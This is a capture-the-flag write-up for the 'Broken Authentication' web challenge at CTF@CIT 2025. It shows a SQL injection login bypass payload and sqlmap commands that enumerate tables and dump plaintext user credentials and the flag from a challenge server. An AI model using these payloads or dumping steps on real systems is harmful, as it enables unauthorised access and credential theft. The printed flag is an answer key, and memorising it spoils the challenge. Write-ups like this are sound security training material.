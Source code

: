 ```yaml
---
name: Broken Authentication (2025)
event: CTF@CIT CTF 2025
category: Web
description: Writeup for Broken Authentication (Web) - CTF@CIT CTF (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Broken Authentication

[![](https://img.youtube.com/vi/ZBdApaw0r0M/0.jpg)](https://www.youtube.com/watch?v=ZBdApaw0r0M?t=6 "Breaking Authentication (CIT CTF)")

## Description

> Say my username.

## Solution

### Part 1: SQL Injection (Auth Bypass)

Basic login page. When we submit the username as `''` it returns the following error.

{% code overflow="wrap" %}

```bash
Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1 in /var/www/html/index.php:23
Stack trace:
#0 /var/www/html/index.php(23): mysqli-&gt;query('SELECT * FROM u...')
#1 {main}
  thrown in <b>/var/www/html/index.php
```

{% endcode %}

Submit username and password as `' or '1'='1` and bypass the login panel.

### Part 2: SQLi (DB Enumeration)

The admin panel says `As you can probably tell, this page is currently under construction.`

Checked the source, cookies, technologies etc but doesn't appear to be anything of use. Perhaps the flag is in the username/password and we need to return to the SQLi.

{% code overflow="wrap" %}

```bash
sqlmap -u http://23.179.17.40:58001/index.php --data "username=cat&password=meow&login=Login" --batch
```

{% endcode %}

It finds the SQLi, so we dump the creds:

{% code overflow="wrap" %}

```bash
sqlmap -u http://23.179.17.40:58001/index.php --data "username=cat&password=meow&login=Login" --batch -T users --dump

+---------+----------+--------------+----------+
| email   | fullname | password     | username |
+---------+----------+--------------+----------+
| <blank> | <blank>  | m1n3r41s     | hank     |
| <blank> | <blank>  | 9f3IC3uj9^zZ | admin    |
| <blank> | <blank>  | M4GN375      | jesse    |
| <blank> | <blank>  | b4byb1u3     | walter   |
+---------+----------+--------------+----------+
```

{% endcode %}

Tried to login with each account in case the admin UI changed, but it did not.

Let's see if there's any other tables.

{% code overflow="wrap" %}

```bash
sqlmap -u http://23.179.17.40:58001/index.php --data "username=cat&password=meow&login=Login" --batch -D app --tables

+---------+
| secrets |
| users   |
+---------+
```

{% endcode %}

Nice! `secrets` sounds pretty promising 👀

{% code overflow="wrap" %}

```bash
sqlmap -u http://23.179.17.40:58001/index.php --data "username=cat&password=meow&login=Login" --batch -T secrets --dump

+--------+-----------------------+
| name   | value                 |
+--------+-----------------------+
| flag   | CIT{36b0efd6c2ec7132} |
+--------+-----------------------+
```

{% endcode %}

Flag: `CIT{36b0efd6c2ec7132}`
